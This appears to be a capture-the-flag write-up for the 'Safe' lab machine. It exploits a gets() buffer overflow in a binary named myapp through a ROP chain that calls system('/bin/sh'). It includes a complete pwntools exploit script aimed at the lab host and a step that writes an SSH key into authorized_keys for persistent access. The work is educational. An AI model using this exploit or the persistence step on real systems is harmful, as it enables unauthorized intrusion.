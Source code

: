 # 15 - Myapp


# Buffer overflow
![](vx_images/1330094505598.png)


Two inputs are sent, the first one didn't print *What do you want me to echo back?* We can conclude that the program breaks with high input size.

# Ghidra disassembly
```
undefined8 main(void)

{
  char buffer [112];
  
  system("/usr/bin/uptime");
  printf("\nWhat do you want me to echo back? ");
  gets(buffer);
  puts(buffer);
  return 0;
}
```

Gets is a dangerous function, it doesn't check the size because of that it keeps writing to the stack until it sees a newline or EOF.

It's a buffer overflow vulnerability. In order to exploit this vulnerability we need more information, let's run `checksec` on the binary first.


# Checksec

![](vx_images/25148891349.png)

No stack canary but NX is enabled that means we can't execute code from the stack.

# ROP Chain

In order to get code execution we need a rop chain, because arbitrary code execution is not allowed from the stack. We can only execute instructions in the `code section`, this can be achieved by `jmp`ing to an area in the code section of the memory, executing and `ret`urning every few instructions.

We know that buffer is 112 bytes long.


![](vx_images/1368417839753.png)

From this debug output we can see our code breaks at the `ret` instruction, that's because the program cannot find the address RSP points to.

# Offset

![](vx_images/4638455526395.png)

121th byte overwrites the return address but right before the RSP **`8 bytes are stored in RBP`** that's good to know because we know a specific place to store things.

# Program flow

![](vx_images/1261158072873.png)

Before calling system it stores the command address in rdi. That means the first argument is passed with rdi register. 
```c
system("/usr/bin/uptime");
```

If we want to execute ```system("/bin/sh")``` we need to store the command in RDI.

# Test function
There is another function  named test. Ghidra fails to decompile it but it has relatively simple instructions to understand. The first 2 instructions are basically doing housekeeping
![](vx_images/2188068897217.png)

The important thing is that it pushes RBP  onto the stack and then stores the address into RDI in the third instruction `'MOV RDI, RSP'`. That actually happens to be what we need exactly , `'/bin/sh'` in RDI for code execution with `system` , the last instruction is `JMP R13` If we manage to put `system` address in R13 and jump to it we should get a shell.

# Gadgets

Stack should look like this so far

|    Stack    | Size |
| ----------- | ---- |
| Junk        | 112  |
| /bin/sh\x00 | 8    |

`/bin/sh` because it gets stored in rbp, `test` will take it to RDI in its 3rd instruction.
Strings have to be null terminated, null byte is appended because of that.


Before executing test we need to store the system address into R13 register somehow. `pop r13` is a good instruction to execute since we can also write to the space after the return address '/bin/sh'. What I want to do basically is this

|      Stack      | Size |
| --------------- | ---- |
| Junk            | 112  |
| /bin/sh\x00     | 8    |
| pop r13 address | 8    |
| system address  | 8    |


* Junk is for filling up the buffer
* `'/bin/sh'` is for the argument (remember the argument gets stored in RDI before `system` function call)
* pop r13 address is for jumping to an address to pop the system address into r13



ropsearch is a builtin feature to gdb-peda.  Let's find an address which performs `pop r13` and `ret` instructions.

```bash
gdb-peda$ ropsearch "pop r13"
Searching for ROP gadget: 'pop r13' in: binary ranges
0x00401206 : (b'415d415e415fc3')        pop r13; pop r14; pop r15; ret
```

These instructions do 2 more pop operations, we have to fill up 16 more bytes before placing `test`'s address next


|      Stack      | Size |
| --------------- | ---- |
| Junk            | 112  |
| /bin/sh\x00     | 8    |
| pop r13 address | 8    |
| system address  | 8    |
| Junk            | 16   |
| test's address  | 8    |

# exploit.py
```py
#!/usr/bin/env python3

from pwn import *

junk = ('A' * 112).encode()
shell = b'/bin/sh\x00'
system=p64(0x401040)
pop_r13 = p64(0x401206)
pop_junk = ("A"*16).encode()
test = p64(0x401152)
payload = junk + shell + pop_r13+system+pop_junk+test


s = remote('10.10.10.147', 1337)
s.sendline(payload)
s.interactive()
```


# Shell
![](vx_images/1501833168984.png)


# SSH
```bash
$ echo 'your rsa private key' > /home/user/.ssh/authorized_keys
```
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/safe]                                                                                                                                                    
└──╼ $ ssh -l user 10.10.10.147                                                                                                                                                               
The authenticity of host '10.10.10.147 (10.10.10.147)' can't be established.                                                                                                                  
ECDSA key fingerprint is SHA256:SLbYsnF/xaUQIxRufe8Ux6dZJ9+Jler9PTISUR90xkc.                                                                                                                  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                                                      
Warning: Permanently added '10.10.10.147' (ECDSA) to the list of known hosts.                                                                                                                 
Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64                                                                                                                          
                                                                                                                                                                                              
The programs included with the Debian GNU/Linux system are free software;                                                                                                                     
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                                                                                                               
                                                                                                                                                                                              
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent                                                                                                                             
permitted by applicable law.                                                                                                                                                                  
user@safe:~$ 
```




